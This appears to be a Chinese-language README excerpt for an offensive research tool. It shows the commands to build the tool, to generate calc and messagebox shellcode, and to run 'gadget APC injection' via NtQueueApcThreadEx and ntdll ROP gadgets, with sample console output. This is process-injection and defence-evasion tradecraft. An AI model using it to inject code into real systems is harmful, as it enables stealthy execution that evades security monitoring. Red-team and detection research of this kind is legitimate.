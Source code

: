 ## 编译与使用

### Windows (build.bat)

```batch
build.bat
```

### Linux/Git Bash (build.sh)

```bash
chmod +x build.sh
./build.sh
```

### 生成 Shellcode

```cmd
cd build

# 生成 calc.exe shellcode
generate_shellcode.exe calc

# 生成 messagebox shellcode
generate_shellcode.exe messagebox

# 生成所有 shellcode
generate_shellcode.exe all
```

### 运行注入

#### 本地注入（自身进程）

```cmd
# 语法
gadget_apc_injection.exe local <shellcode.bin>

# 示例
gadget_apc_injection.exe local calc_shellcode.bin
```

**输出示例**：
```
[+] NtQueueApcThreadEx NTDLL Gadget Injection
[+] LloydLabs Technique

[+] Loaded shellcode: 276 bytes

[+] Local Gadget APC Injection
[+] Shellcode address: 0000000000A50000
[+] Shellcode size: 276 bytes

[+] NtQueueApcThreadEx: 00007FFE8C5F1234
[+] NtTestAlert: 00007FFE8C5F5678

[+] Module ntdll.dll base address: 00007FFE8C5D0000
[+] Module size: 2097152 bytes
[+] Searching for gadgets in executable sections...
[+] Scanning section: .text
[+] Found 1247 gadgets
[+] Selected random gadget at ntdll.dll!00007FFE8C6A2B3C (index 537/1247)
[+] Gadget bytes: 52 C3 (pop edx/rdx; ret)

[+] Queueing APC with gadget...
[+] ApcRoutine = 00007FFE8C6A2B3C (ntdll.dll gadget)
```